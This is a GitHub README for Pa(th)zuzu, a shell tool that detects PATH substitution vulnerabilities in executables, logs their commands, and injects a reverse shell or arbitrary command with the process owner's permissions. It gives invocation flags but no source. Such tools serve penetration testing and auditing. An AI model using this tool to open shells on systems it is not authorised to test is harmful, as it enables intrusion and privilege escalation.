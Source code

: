 # Pa(th)zuzu
Checks for PATH substitution vulnerabilities, logs the commands executed by the vulnerable executables and injects a reverse shell with the permissions of the owner of the process.

#How to make it work
- `chmod +x pathzuzu.sh`
- `./pathzuzu.sh [-r address:port] [-e command] [-t seconds] /path/to/command [args]`
  - `-r address:port Starts reverse shell to address:port`
  - `-e command      Runs command if target is vulnerable`
  - `-t seconds      Kills target (SIGTERM) after $seconds seconds`

Returns 0 if the executable is vulnerable, 1 otherwise.

Logs are saved in `pathzuzu.sh.log` ( `$(basename "$0").log` )

Demostration (warning: one some [tiny] devices the right part of the screen it's not viewable even while in landscape):
[![Pa(th)zuzu](https://asciinema.org/a/7750ghw7z5jxh83fbeh3r71ek.png)](https://asciinema.org/a/7750ghw7z5jxh83fbeh3r71ek)
